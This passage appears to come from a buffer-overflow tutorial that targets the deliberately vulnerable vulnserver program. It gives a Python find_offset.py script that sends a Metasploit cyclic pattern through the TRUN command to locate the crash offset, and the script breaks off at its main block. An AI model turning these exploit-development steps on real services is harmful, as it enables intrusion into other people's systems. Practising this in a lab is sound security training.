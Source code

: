 ![pattern_rb](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/pattern_rb.png)

> Once the pattern has been placed, execute the find_offset.py script.

*find_offset.py*

```python
#!/usr/bin/python3

import sys, socket

host = '172.16.10.101'
port = 9999
offset_file = 'pattern.rb'

def read_file(file):
        try:
                with open(file, 'r') as file:
                        file = file.read()

                return file.strip()

        except FileNotFoundError as err:
                print(err)
                sys.exit()


def find_offset(host, port, offset):

        while True:
                try:
                        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect((host, port))

                        # Send generated pattern.rb from metasploit framework
                        s.send(('TRUN /.:/' + offset).encode('ascii'))
                        s.close()

                except:
                        print("Error connecting to the server..")
                        sys.exit()


if __name__ == '__main__':
```